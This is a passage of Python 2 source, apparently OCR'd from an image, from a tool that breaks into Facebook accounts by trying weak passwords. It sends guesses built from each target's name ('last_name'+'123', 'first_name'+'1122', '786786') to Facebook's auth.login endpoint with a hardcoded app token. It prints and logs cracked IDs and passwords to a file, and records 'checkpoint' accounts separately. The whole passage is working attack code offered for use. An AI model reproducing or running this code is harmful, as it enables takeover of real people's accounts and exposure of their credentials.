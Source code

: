 				               cek.close()
				               cekpoint.append(user+pass2)								
				           else:											
					       pass3 = b['last_name']+'123'										
					       data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")										
					       q = json.load(data)										
					       if 'access_token' in q:	
						       x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				                       z = json.loads(x.text)
						       print '\x1b[1;91m[!] \x1b[1;92m[OK]'								
						       print '\x1b[1;92m[!] \x1b[1;97mName \x1b[1;97m    : \x1b[1;97m' + b['name']									
						       print '\x1b[1;93m[!] \x1b[1;97mID \x1b[1;97m      : \x1b[1;97m' + user							
						       print '\x1b[1;94m[!] \x1b[1;91mPassword \x1b[1;97m: \x1b[1;97m' + pass3 + '\n'									
						       oks.append(user+pass3)
                                               else:
			                               if 'www.facebook.com' in q["error_msg"]:
				                           print '\x1b[1;91m[!] \x1b[1;96m[Checkpoint]'
				                           print '\x1b[1;92m[!] \x1b[1;97mName \x1b[1;97m    : \x1b[1;97m' + b['name']
				                           print '\x1b[1;93m[!] \x1b[1;97mID \x1b[1;97m      : \x1b[1;97m' + user
				                           print '\x1b[1;94m[!] \x1b[1;91mPassword \x1b[1;97m: \x1b[1;97m' + pass3 + '\n'
				                           cek = open("out/super_cp.txt", "a")
				                           cek.write("ID:" +user+ " Pw:" +pass3+"\n")
				                           cek.close()
				                           cekpoint.append(user+pass3)									
					               else:										
						           pass4 = b['first_name'] + '1122'											
			                                   data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")												
			                                   q = json.load(data)												
			                                   if 'access_token' in q:		
						                   x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				                                   z = json.loads(x.text)
				                                   print '\x1b[1;94m[!] \x1b[1;92m[OK]'											
				                                   print '\x1b[1;93m[!] \x1b[1;97mName \x1b[1;97m    : \x1b[1;97m' + b['name']											
				                                   print '\x1b[1;92m[!] \x1b[1;97mID \x1b[1;97m      : \x1b[1;97m' + user											
				                                   print '\x1b[1;91m[!] \x1b[1;91mPassword \x1b[1;97m: \x1b[1;97m' + pass4 + '\n'											
				                                   oks.append(user+pass4)
                                                           else:
			                                           if 'www.facebook.com' in q["error_msg"]:
				                                       print '\x1b[1;94m[!] \x1b[1;96m[Checkpoint]'
				                                       print '\x1b[1;93m[!] \x1b[1;97mName \x1b[1;97m    : \x1b[1;97m' + b['name']
				                                       print '\x1b[1;92m[!] \x1b[1;97mID \x1b[1;97m      : \x1b[1;97m' + user
				                                       print '\x1b[1;91m[!] \x1b[1;91mPassword \x1b[1;97m: \x1b[1;97m' + pass4 + '\n'
				                                       cek = open("out/super_cp.txt", "a")
				                                       cek.write("ID:" +user+ " Pw:" +pass4+"\n")
				                                       cek.close()
				                                       cekpoint.append(user+pass4)					
					                           else:									
						                       pass5 = '786786'							
						                       data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")								
						                       q = json.load(data)								
						                       if 'access_token' in q:	
						                               x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				                                               z = json.loads(x.text)
						                               print '\x1b[1;97m[!] \x1b[1;92m[OK]'						
						                               print '\x1b[1;97m[!] \x1b[1;97mName \x1b[1;97m    : \x1b[1;97m' + b['name']							
						                               print '\x1b[1;97m[!] \x1b[1;97mID \x1b[1;97m      : \x1b[1;97m' + user					
						                               print '\x1b[1;97m[!] \x1b[1;91mPassword \x1b[1;97m: \x1b[1;97m' + pass5 + '\n'							
						                               oks.append(user+pass5)	